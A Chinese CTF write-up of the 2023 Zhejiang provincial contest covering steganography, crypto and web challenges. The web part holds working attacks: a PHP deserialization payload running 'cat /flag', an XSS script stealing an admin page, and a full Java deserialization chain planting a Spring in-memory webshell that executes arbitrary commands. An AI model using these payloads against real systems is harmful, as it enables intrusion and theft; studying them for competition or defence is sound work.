# 2023 浙江省赛初赛

# Misc

## number gamenumber game

打开 F12 查看前端源码，发现这有一段代码挺可疑的，这里直接拿到控制台跑一下就行

```typescript
var _0x14184c = [0x38, 0x6f, 0x1e, 0x24, 0x1, 0x32, 0x51, 0x45, 0x1, 0x3c, 0x24, 0xb, 0x55, 0x38, 0xa, 0x5d, 0x28, 0x12, 0x33, 0xb, 0x5d, 0x20, 0x1e, 0x46, 0x17, 0x3d, 0x10, 0x2a, 0x41, 0x44, 0x49, 0x1a, 0x31, 0x5a]
          , _0x477866 = '';
        for (var _0x6698b7 = 0x0; _0x6698b7 < _0x14184c['length']; _0x6698b7++)
            _0x477866 += String[_0x38f496(0xd9)](_0x14184c[_0x6698b7] ^ _0x6698b7 + 0x5a);
        alert(_0x477866);
```

## Steins_Gate

图片像素由嘟噜组成，并且每个字所占像素大小相同，并且颜色渐变，猜测 lsb 隐写要从字中提取像素

每个字是 16*16，尝试提取中心点等尝试不对；考虑到字都有一个口字旁，且其所占像素位置一致，尝试提取



发现 lsb 隐写有个 base64 编码，是一个多行的 base64，且每一行都有两个等号，两个等号后有一些杂数据，去除

```python
from PIL import Image
import libnum
img = Image.open('Steins_Gate.png')
f=open('rgb.txt','wb')
width,height=img.size
for i in range(6,height,16):
    try:
        bins = ""
        for j in range(2,width,16):
            tmp = img.getpixel((j,i))
            bins += str(tmp[0] & 1) + str(tmp[1] & 1) + str(tmp[2] & 1)
        data = libnum.b2s(bins)
        print(data.index(b"=="))
        f.write(data[:data.index(b"==")+2]+b"\n")
    except:
        break
```

然后 base64 解密得到一个 jpg，同时多行 base64，明显 base64 隐写

```python
import base64
bin_str=''
b64chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/'
with open('rgb.txt','r') as f:
    for line in f.readlines():
        stegb64="".join(line.split())
        rowb64="".join(str(base64.b64encode(base64.b64decode(stegb64)),'utf-8').split())
        offset=abs(b64chars.index(stegb64.replace('=','')[-1])-b64chars.index(rowb64.replace('=', '')[-1]))
        equalnum=line.count('=')
        if equalnum:
            bin_str += bin(offset)[2:].zfill(equalnum * 2)
    #print(bin_str)
    print(''.join([chr(int(bin_str[i:i + 8], 2)) for i in range(0,len(bin_str),8)]))
```

得到 DuDuLu~T0_Ch3@t_THe_w0r1d，猜测 jpg 隐写，逐格尝试，发现是 outguess



## Ez_misc

看 yuanshen 文件明显是一个字节颠倒的 jpg



steghide 隐写





# Web

## Easy php

反序列化

```php
<?php

class AAA{
    public $cmd;
}
class BBB{
    public $param1;
}
class CCC{
    public $func;
}

$b = new BBB();
$a = new AAA();
$c = new CCC();
$b->param1 = $c;
$c->func = $a;
$a->cmd = "system('cat /flag');";

echo urlencode(serialize($b));
```

## my2to

Xssbot

题目的 flag 在 admin 的页面，所以得想办法 XSS 来获取 admin 的页面；审计代码发现存在文件上传接口





所以可以上传一个恶意的 html 文件进行 XSS，但由于题目环境不出网，所以得想办法外带 flag；这里还是可以利用题目给的文件上传接口来讲 flag 写入 `public/uploads`

```html
<script>
    if(document.domain != "localhost") {
      location = "http://localhost/uploads/attack.html";
    }else{
      fetch("/todo", {method: "GET", credentials: "include"})
      .then(res => res.text())
      .then(data => {
        var blob = new Blob([data], { type: 'text/plain' });
        var formData = new FormData();
        formData.append('file', blob, 'result.txt');
        fetch('/api/upload', {
          method: 'POST',
          body: formData,
        });});
}
</script>
```

上传后，触发 bot 访问

## Can you read flag

开局一个注释 `//eval($_GET[a]);` 直接 `/?a=system('whoami');` 发现有 waf

使用 `file_get_contents` 尝试读 index.php 得到



ban 了一些东西，直接再套一层 `eval` 轻松绕过



但直接读 flag 没有权限，运行 `/readflag` 又需要交互式的 shell 去计算给的值。

但查看/tmp/src 目录下的源码，可以发现题目 `/readflag` 的源码，其随机数生成有缺陷，种子是 time(0)，因此可以写一个 c 语言程序，得到 10 秒之后的结果，输出到文件里，再将文件重定向给/readflag，即可通过计算题检查

```c
int main(){
        unsigned int v3 = time(0)+10;
        unsigned int v9;
        unsigned int v10;
        srand(v3);
        int v11 = rand() % 101 + 100;
        printf("y\n");
        for (int i = 0; i < v11; ++i){
                v10 = rand() % 1000000;
                v9 = rand() % 9000000;
                printf("%d\n", v10+v9);
        }
}
```





## secObj

题目给了 jar 包，审计发现存在反序列化接口



但过滤了一些类，然后这里其实可以使用 jackson 链 + 二次反序列化 +HotSwappableTargetSource 来绕过

```java
package com.example.demo.exp;

import com.fasterxml.jackson.databind.node.POJONode;
import com.sun.org.apache.bcel.internal.Repository;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xpath.internal.objects.XString;
import javassist.*;
import org.springframework.aop.framework.AdvisedSupport;
import org.springframework.aop.target.HotSwappableTargetSource;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.*;
import java.security.*;
import java.util.Base64;
import java.util.HashMap;

public class Exp {

    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass ctClass0 = pool.get("com.fasterxml.jackson.databind.node.BaseJsonNode");
        CtMethod writeReplace = ctClass0.getDeclaredMethod("writeReplace");
        ctClass0.removeMethod(writeReplace);
        ctClass0.toClass();

        //内存马
        byte[] bytes = Repository.lookupClass(MemShell.class).getBytes();

        Templates templatesImpl = new TemplatesImpl();
        setFieldValue(templatesImpl, "_bytecodes", new byte[][]{bytes});
        setFieldValue(templatesImpl, "_name", "aaaa");
        setFieldValue(templatesImpl, "_tfactory", null);
        Class<?> clazz = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy");
        Constructor<?> cons = clazz.getDeclaredConstructor(AdvisedSupport.class);
        cons.setAccessible(true);
        AdvisedSupport advisedSupport = new AdvisedSupport();
        advisedSupport.setTarget(templatesImpl);
        InvocationHandler handler = (InvocationHandler) cons.newInstance(advisedSupport);
        Object proxyObj = Proxy.newProxyInstance(clazz.getClassLoader(), new Class[]{Templates.class}, handler);

        KeyPairGenerator keyPairGenerator;
        keyPairGenerator = KeyPairGenerator.getInstance("DSA");
        keyPairGenerator.initialize(1024);
        KeyPair keyPair = keyPairGenerator.genKeyPair();
        PrivateKey privateKey = keyPair.getPrivate();
        Signature signingEngine = Signature.getInstance("DSA");
        SignedObject signedObject = new SignedObject((Serializable) proxyObj, privateKey, signingEngine);

        POJONode jsonNodes = new POJONode(signedObject);
        HotSwappableTargetSource hotSwappableTargetSource1 = new HotSwappableTargetSource(jsonNodes);
        HotSwappableTargetSource hotSwappableTargetSource2 = new HotSwappableTargetSource(new XString("1"));
        HashMap hashMap = makeMap(hotSwappableTargetSource1, hotSwappableTargetSource2);
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(barr);
        objectOutputStream.writeObject(hashMap);
        objectOutputStream.close();
        String res = Base64.getEncoder().encodeToString(barr.toByteArray());
        System.out.println(res);

    }
    private static void setFieldValue(Object obj, String field, Object arg) throws Exception{
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, arg);
    }
    public static HashMap<Object, Object> makeMap (Object v1, Object v2 ) throws Exception {
        HashMap<Object, Object> s = new HashMap<>();
        setFieldValue(s, "size", 2);
        Class<?> nodeC;
        try {
            nodeC = Class.forName("java.util.HashMap$Node");
        }
        catch ( ClassNotFoundException e ) {
            nodeC = Class.forName("java.util.HashMap$Entry");
        }
        Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);

        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, v1, v1, null));
        Array.set(tbl, 1, nodeCons.newInstance(0, v2, v2, null));
        setFieldValue(s, "table", tbl);
        return s;
    }
}
```

内存马

```java
package com.example.demo.exp;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.servlet.mvc.condition.RequestMethodsRequestCondition;
import org.springframework.web.servlet.mvc.method.RequestMappingInfo;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.io.InputStream;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.Scanner;

//springboot 2.6 + 内存马
public class MemShell extends AbstractTranslet {

    static {
        try {
            WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
            RequestMappingHandlerMapping mappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);
            Field configField = mappingHandlerMapping.getClass().getDeclaredField("config");
            configField.setAccessible(true);
            RequestMappingInfo.BuilderConfiguration config =
                    (RequestMappingInfo.BuilderConfiguration) configField.get(mappingHandlerMapping);
            Method method2 = MemShell.class.getMethod("shell", HttpServletRequest.class, HttpServletResponse.class);
            RequestMethodsRequestCondition ms = new RequestMethodsRequestCondition();
            RequestMappingInfo info = RequestMappingInfo.paths("/shell")
                    .options(config)
                    .build();
            MemShell springControllerMemShell = new MemShell();
            mappingHandlerMapping.registerMapping(info, springControllerMemShell, method2);

        } catch (Exception hi) {
//            hi.printStackTrace();
        }
    }

    public void shell(HttpServletRequest request, HttpServletResponse response) throws IOException {
        if (request.getParameter("cmd") != null) {
            boolean isLinux = true;
            String osTyp = System.getProperty("os.name");
            if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                isLinux = false;
            }
            String[] cmds = isLinux ? new String[]{"sh", "-c", request.getParameter("cmd")} : new String[]{"cmd.exe", "/c", request.getParameter("cmd")};
            InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
            Scanner s = new Scanner(in).useDelimiter("\\A");
            String output = s.hasNext() ? s.next() : "";
            response.getWriter().write(output);
            response.getWriter().flush();
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```

然后就是绕过 spring security 了，注意这里只用了一个 `*` ，所以存在绕过；最后加上 `_csrf` token 即可





# Crypto

## 小小数学家

```python
f = open("flag.txt",'r')
while True:
    tmp = f.readline()
    if tmp == '':
        break
    else:
        print(chr(int(eval(tmp[:tmp.index('=')]))),end='')
```

## <strong>An EaSy Cipher</strong>

aes cbc zerepadding 6 位密码爆破

```java
import base64
from Crypto.Cipher import AES
import libnum


def zeropadding(password):
    password = password + b"\x00"*(16 - len(password) % 16)
    return password


def pkcs7padding(password):
    l = 16 - (len(password) % 16)
    password = password + (chr(l).encode())*(16 - len(password) % 16)
    return password


line = open("superdic.txt","rb").readlines()
for i in line:
    password = zeropadding(i[:-2])
    text = base64.b64decode("Kln/qZwlOsux+b/Gv0WsxkOec5E70dNhvczSLFs+0pkHaovEOBqUApBGBDBUrH08")
    aes = AES.new(password,AES.MODE_ECB)
    den_text = aes.decrypt(text)
    if(b"flag" in den_text or b"DASCTF" in den_text):
        print(den_text)
        print(password)
```

## Yusa 的密码学课堂——基础数论

sage 库里有专门可以调用的函数，two_squares，所以直接秒杀

```python
s = 173178061442550241596295506150572803829268102881297542445649200353047297914764783385643705889370567071577408829104128703765633248277722687055281420899564198724968491216409225857070531370724352556864154450614891750313803499101686782558259953244119778256806332589612663957000269869144555485216828399422391672121
a,b = two_squares(s)
from hashlib import md5
print(md5(str(a+b).encode()).hexdigest())
```

当然，在数论含义上，我们可以在复域上分解数字，把它的常数和 i 的系数分别作为分解的结果，也可以解出这个题目。看 maple 的博客看到过。

## EC_Party-III

低解密指数，连分数直接打

```python
ct = [10517482889776460226798449006280081167663671198448544453304563030553066300585088657159799516828057458092448853052920, 10402402380108575947733278581108880071660185906203575453837669489513650182676772750843558327746184945922314875098996, 452239510514900186933709062848646640558105660312444312121851933676754687850508865659206624803226663304812888272594694285123823218948165607478144589871322148031514596122654196640778853480169180864412134209693877604844174450602155353, 137939931394124279393027766586199451754893501053862574760060288577053514723631473985259186063729745515767167268309839903521149677958518517988564142828176577685619561913731155508981456507557881596602396073589127827579264760182112015, (312312975924665463422872243489714243976133330669934414246404507993066820310886215600585539115436654843078716170526368558972800117033427241194242498913898005160762151892979826292737941332916578310350510245475526522735894588645243659, 422891099305786578397746684898210811095359530216631541482542541898542508551347882962281401572399110483550691802487377837504493122807091311281569558317360479103461652558448871769150783477147866528115922507893061101403528629595165327)]

a,b,n,e,(Cx,Cy) = ct
E = EllipticCurve(Zmod(n),[a,b])
C = E(Cx,Cy)
O = E(0,1,0)

c = continued_fraction((e/n))

for i in range(200):
    d,k = (c.denominator(i),c.numerator(i))
    print(d)
    if C*(e*d-1) == O and d != 1:
        print(d)
        break
```

d = 861078593737268627868079

```python
ct = [10517482889776460226798449006280081167663671198448544453304563030553066300585088657159799516828057458092448853052920, 10402402380108575947733278581108880071660185906203575453837669489513650182676772750843558327746184945922314875098996, 452239510514900186933709062848646640558105660312444312121851933676754687850508865659206624803226663304812888272594694285123823218948165607478144589871322148031514596122654196640778853480169180864412134209693877604844174450602155353, 137939931394124279393027766586199451754893501053862574760060288577053514723631473985259186063729745515767167268309839903521149677958518517988564142828176577685619561913731155508981456507557881596602396073589127827579264760182112015, (312312975924665463422872243489714243976133330669934414246404507993066820310886215600585539115436654843078716170526368558972800117033427241194242498913898005160762151892979826292737941332916578310350510245475526522735894588645243659, 422891099305786578397746684898210811095359530216631541482542541898542508551347882962281401572399110483550691802487377837504493122807091311281569558317360479103461652558448871769150783477147866528115922507893061101403528629595165327)]

a,b,n,e,(Cx,Cy) = ct
E = EllipticCurve(Zmod(n),[a,b])
C = E(Cx,Cy)
O = E(0,1,0)

d = 861078593737268627868079
m = C*d
m = m[0]
import libnum
print(libnum.n2s(int(m)))
```

# Reverse

## Pyccc

